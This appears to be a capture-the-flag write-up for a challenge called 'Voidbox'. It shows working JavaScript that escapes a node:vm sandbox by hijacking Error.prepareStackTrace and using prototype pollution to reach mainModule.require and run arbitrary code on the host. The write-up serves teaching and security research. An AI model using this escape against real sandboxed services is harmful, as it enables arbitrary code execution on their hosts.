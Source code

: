 ### Voidbox

Our solution to the challenge was to escape from the `node:vm` sandbox and then use Prototype Pollution to bypass the removal of all properties in `globalThis` 
done by the following snippet:

```js
for (const key in Object.getOwnPropertyDescriptors(𝓰𝓵𝓸𝓫𝓪𝓵𝓣𝓱𝓲𝓼)) {
  try {
    delete 𝓰𝓵𝓸𝓫𝓪𝓵𝓣𝓱𝓲𝓼[key];
  } catch {}
}
```

Our exploit executed inside the sandbox was as the following:

```js
),Error.prepareStackTrace = new Proxy(() => {},{apply(a,b,c){
c.constructor.constructor(`
[].__proto__.__proto__.__defineGetter__('channel',function() {
this.mainModule.require('fs').writeFileSync('/tmp/asd3.txt', 'asd')
})
`)();
}
})
async function a() {
 eval("1=1")
 }
a();
"ASD"//
```

Which polluted `channel` on the host and thanks to which we got access to `this.mainModule` allowing us to execute arbitrary code.
